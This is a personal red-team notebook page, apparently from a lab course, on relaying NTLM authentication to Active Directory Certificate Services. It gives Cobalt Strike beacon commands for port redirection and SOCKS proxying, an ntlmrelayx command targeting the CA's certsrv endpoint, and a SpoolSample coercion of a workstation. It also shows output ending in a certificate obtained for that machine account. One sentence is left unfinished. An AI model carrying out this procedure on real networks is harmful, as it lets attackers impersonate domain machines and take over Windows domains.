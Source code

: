 ```yaml
---
creation date: January 5th 2022
last modified date: January 5th 2022
aliases: []
tags: #📖
---
```


Primary Categories: [[01 - Operation]]
Secondary Categories:  [[02 - External]] - [[02 - Internal]]
Links: [[Privilege Escalation]]
Search Tag: #📖  

# [[NTLM Relaying to ADCS]]  

AD CS services support HTTP enrolment methods and even includes a GUI.  This endpoint is usually found at `http[s]://<hostname>/certsrv`, and by default supports **NTLM** and **Negotiate** authentication methods.

In the default configuration, these endpoints are vulnerable to NTLM relay attacks.  A common abuse method is to coerce a domain controller to authenticate to an attacker-controller location, relay the request to the CA and obtain a certificate for that DC, then use it to obtain a TGT.

Another aspect to be aware of is that you cannot relay authentication back to the original machine. If the CA is running on the DC 


As SYSTEM on a server/workstation:

-   Use PortBender to capture incoming traffic on port 445 and redirect it to port 8445.
-   Start a reverse port forward to forward traffic hitting port 8445 to the Team Server on port 445.
-   Start a SOCKS proxy for ntlmrelayx to send traffic back into the network.

```
beacon> PortBender redirect 445 8445
[+] Launching PortBender module using reflective DLL injection
                                            
Initializing PortBender in redirector mode
Configuring redirection of connections targeting 445/TCP to 8445/TCP

beacon> rportfwd 8445 127.0.0.1 445
[+] started reverse port forward on 8445 to 127.0.0.1:445

beacon> socks 1080
[+] started SOCKS4a server on: 1080

```

Start ntlmrelayx with proxychains (10.10.15.75 is CA.):

```
root@kali:~# proxychains ntlmrelayx.py -t http://10.10.15.75/certsrv/certfnsh.asp -smb2support --adcs --no-http-server
```

Next, use one of the remote authentication methods to force a connection from WKSTN-3 to the relay (10.10.17.25 is the server/workstation running your relay)(10.10.15.254 is the authentication you are getting, you should be able to use anything).
```
beacon> execute-assembly C:\Tools\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe 10.10.15.254 10.10.17.25

[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
```

Look at kali for a base64 encoded ticket (output slightly trimmed for brevity).

```
[*] SMBD-Thread-4: Connection from CYBER/WKSTN-3$@127.0.0.1 controlled, attacking target http://10.10.15.75
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
 ...  OK
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] SMBD-Thread-4: Connection from CYBER/WKSTN-3$@127.0.0.1 controlled, attacking target http://10.10.15.75
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] GOT CERTIFICATE! ID 5
[*] Base64 certificate of user WKSTN-3$:
MIIQ3Q[...snip...]NzkQ==

```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: January 5th 2022 (02:26 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
